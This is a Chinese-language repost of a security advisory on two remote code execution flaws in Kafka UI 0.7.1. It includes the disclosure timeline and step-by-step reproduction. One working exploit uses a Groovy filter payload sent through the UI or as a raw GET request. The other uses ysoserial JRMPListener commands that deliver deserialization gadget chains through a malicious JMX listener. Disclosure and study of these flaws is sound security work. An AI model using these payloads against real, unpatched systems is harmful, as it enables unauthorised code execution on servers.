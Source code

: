 #  Apache Kafka UI 中的远程代码执行 （RCE） - CVE-2023-52251、CVE-2024-32030   
 Ots安全   2024-06-22 12:07  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
协调披露时间表  
- 2023-11-29：报告发送至maintainers.kafka-ui@provectus.com  
  
- 2024-01-02：发送后续电子邮件  
  
- 2024-01-23：未收到回复。https://github.com/provectus/kafka-ui/ 存储库中已创建私人安全问题。  
  
- 2024-02-19：未收到回复。又发送了一封后续电子邮件，通知即将达到 90 天的披露期限。  
  
- 2024-02-29：未收到回复。向 info@provectus.com 发送了另一封电子邮件  
  
- 2024-02-29：维护者回复称将尽快修复漏洞。  
  
- 2024-04-02：发送后续电子邮件  
  
- 2024-04-08：维护人员回复说他们将在 4 月中旬发布修复程序。  
  
- 2024-04-10：修复程序随 Kafka UI 0.7.2 版本发布。  
  
概括  
  
Kafka UI 受到两个远程代码执行漏洞的影响。第一个漏洞位于消息过滤组件中，可导致执行任意未沙盒化的 Groovy 脚本。第二个漏洞可通过滥用 Kafka UI 连接到恶意 JMX 服务器来利用，从而通过不安全的反序列化导致 RCE。这尤其危险，因为 Kafka UI 默认未启用身份验证。如果为 Kafka UI 实例启用了身份验证，则攻击者需要拥有有效的帐户。  
  
产品  
  
Apache Kafka 的 UI（https://github.com/provectus/kafka-ui）  
  
测试版本  
  
v0.7.1  
  
细节  
  
问题 1：通过消息过滤中的 Groovy 脚本执行进行 RCE（GHSL-2023-229/CVE-2023-52251）  
  
Kafka UI 允许根据用户提供的过滤器显示通过 Kafka 集群的消息。服务器支持的过滤器类型之一是GROOVY_SCRIPT。通过使用此过滤器，潜在的恶意人员不仅可以查看消息的内容和属性，还可以在服务器上执行任意代码。此过滤器绝不是沙盒化的。  
  
易受攻击的方法：com.provectus.kafka.ui.emitter.MessageFilters#groovyScriptFilter  
```
static Predicate<TopicMessageDTO> groovyScriptFilter(String script) {
  var engine = getGroovyEngine();
  var compiledScript = compileScript(engine, script);
  var jsonSlurper = new JsonSlurper();
  return new Predicate<TopicMessageDTO>() {
    @SneakyThrows
    @Override
    public boolean test(TopicMessageDTO msg) {
      var bindings = engine.createBindings();
      bindings.put("partition", msg.getPartition());
      ...
      var result = compiledScript.eval(bindings);
```  
  
重现步骤  
1. 使用默认设置运行 Kafka UI 并将其连接到任何 Kafka 集群。  
  
1. 在 Kafka UI 中，导航到 cluster->Topics->Messages 并使用以下内容创建一个新的过滤器：  
  
```
new ProcessBuilder("touch","/tmp/pwnd.txt").start()
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacica4CmicAC7eW22ITGqakibs3A1PuowfMHEshPYvpcRqIHSjWXUNMRUBlRvRWvHiaboibMgLDHiafZyNw/640?wx_fmt=png&from=appmsg "")  
  
通过向应用程序发送以下 GET 请求也可以完成相同的操作：  
```
GET /api/clusters/local/topics/topic/messages?q=new+ProcessBuilder%28%22touch%22%2C%22%2Ftmp%2Fpwnd.txt%22%29.start%28%29&filterQueryType=GROOVY_SCRIPT&attempt=7&limit=100&page=0&seekDirection=FORWARD&keySerde=String&valueSerde=String&seekType=BEGINNING HTTP/1.1
Host: 127.0.0.1:8091
```  
1. 如果当前主题有任何消息，脚本将立即在服务器上执行。或者，您可以使用 Kafka UI 界面向代理发送新消息以触发脚本执行。  
  
1. 执行后  
/tmp/pwnd.txt会在服务器上创建一个文件。  
  
影响  
  
此问题可能导致身份验证后远程代码执行。这尤其危险，因为 Kafka UI 默认未启用身份验证。  
  
问题 2：通过 JMX 指标收集中的 JNDI 解析进行 RCE（GHSL-2023-230/CVE-2024-32030）  
  
Kafka UI API 允许用户通过指定网络地址和端口连接到不同的 Kafka 代理。作为一项单独的功能，它还提供了通过连接到其 JMX 端口来监控 Kafka 代理性能的功能。JMX 基于 RMI 协议，因此它本质上容易受到反序列化攻击。潜在攻击者可以通过将 Kafka UI 后端连接到其自己的恶意代理来利用此功能。攻击者无需设置合法的 JMX 端口，而是可以创建一个 RMI 侦听器，该侦听器会为任何 RMI 调用返回恶意序列化对象。在最坏的情况下，它可能导致远程代码执行，因为 Kafka UI 在其类路径中具有所需的小工具链。  
  
先决条件：漏洞会影响发生以下情况之一的部署：  
1. dynamic.config.enabled属性在设置中设置。默认情况下不启用它，但建议在许多 Kafka UI 教程中启用它，包括其自己的 README.md。  
  
1. 或者攻击者可以访问连接到 Kafka UI 的 Kafka 集群。在这种情况下，攻击者可以利用此漏洞扩展其访问权限并在 Kafka UI 上执行代码。  
  
重现步骤  
1. 使用默认设置运行 Kafka UI   
dynamic.config.enabled=true。  
  
1. 使用纯文本侦听器启动任何 Kafka 代理，无需身份验证（本地或在 docker 中）。请勿将其连接到 Kafka UI。  
  
1. 现在我们需要设置一个恶意 JMX 监听器。我们将使用ysoserial 工具生成一个带有有效载荷的序列化对象，用于远程代码执行。为了演示，我在我的存储库中准备了一个特殊的 ysoserial 分支：https://github.com/artsploit/ysoserial/tree/scala1 您可以使用以下命令克隆并运行它：  
  
```
git clone https://github.com/artsploit/ysoserial/
cd ysoserial && git checkout scala1
mvn package -D skipTests=true #make sure you use Java 8 for compilation, it might not compile with recent versions
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1718 Scala1 "org.apache.commons.collections.enableUnsafeSerialization:true"
```  
  
该工具将监听端口 1718 上的传入连接。  
  
1.在 Kafka UI 中，导航到仪表板->配置新集群，并将 kafka 代理的地址与 ysoserial 的 JMX 端口 1718 一起输入。确保在本地主机或同一主机上运行 kafka 代理和 ysoserial。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacica4CmicAC7eW22ITGqakibslvuW59EVQSUmPv6LF8NXgx4P8NFGdnibKoKvtiaNfzrOsVXcesjVas7A/640?wx_fmt=png&from=appmsg "")  
  
添加此集群后，您可以在 ysoserial 工具中看到传入连接。它将使用恶意负载响应 Kafka UI。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacica4CmicAC7eW22ITGqakibso7Zj2UcNFIZFR4vdZ4HeIkhXicyhAptcwvqeepnVgMh1VrgH0MXZNSQ/640?wx_fmt=png&from=appmsg "")  
  
此有效载荷将在 Kafka UI 端反序列化。它不会直接触发 RCE，但会导致将系统属性设置  
org.apache.commons.collections.enableUnsafeSerialization为  
true。您可能会注意到 Kafka UI 日志中存在一些错误，这是预期的：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacica4CmicAC7eW22ITGqakibsqSbx2ENw1vOIAJzb0wSziaBynVe1PLJ2MZK1D93EOCHpOkAUpHIib25Q/640?wx_fmt=png&from=appmsg "")  
  
接下来，要真正获得 RCE，您需要使用以下命令重新运行 ysoserial：  
```
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1718 CommonsCollections7 "touch /tmp/pwnd2.txt"
```  
  
如果等待的时间稍长一些，Kafka UI 将重新连接到此 JMX 端口以再次获取指标，从而触发另一个对象的反序列化。只要之前已由另一个 payload 启用，就会导致在 Kafka UI java 进程中  
org.apache.commons.collections.enableUnsafeSerialization执行该命令。  
touch /tmp/pwnd2.txt  
  
同样，Kafka UI 日志输出将充满错误，但这是预料之中的：所有异常都在反序列化发生并执行命令后抛出：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacica4CmicAC7eW22ITGqakibsTcW1ka0ApmnCODkqUcDDFsx0htBmOVc19BB4rZRzgdg1rserEdIpiaA/640?wx_fmt=png&from=appmsg "")  
  
如果你对反序列化如何触发和命令执行感到好奇System.setProperty，可以看看相应小工具链的源代码：Scala1.java和CommonsCollections7.java 。另外，你可以在StreamRemoteCall.java#L271 设置断点来查看对象是如何反序列化的。  
  
影响  
  
此问题可能导致身份验证后远程代码执行。这尤其危险，因为 Kafka-UI 默认未启用身份验证。  
  
漏洞漏洞  
- CVE-2023-52251  
  
- CVE-2024-32030  
  
信用  
  
这些问题是由 GHSL 团队成员@artsploit (Michael Stepankin)发现并报告的。  
  
```
https://securitylab.github.com/advisories/GHSL-2023-229_GHSL-2023-230_kafka-ui/
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
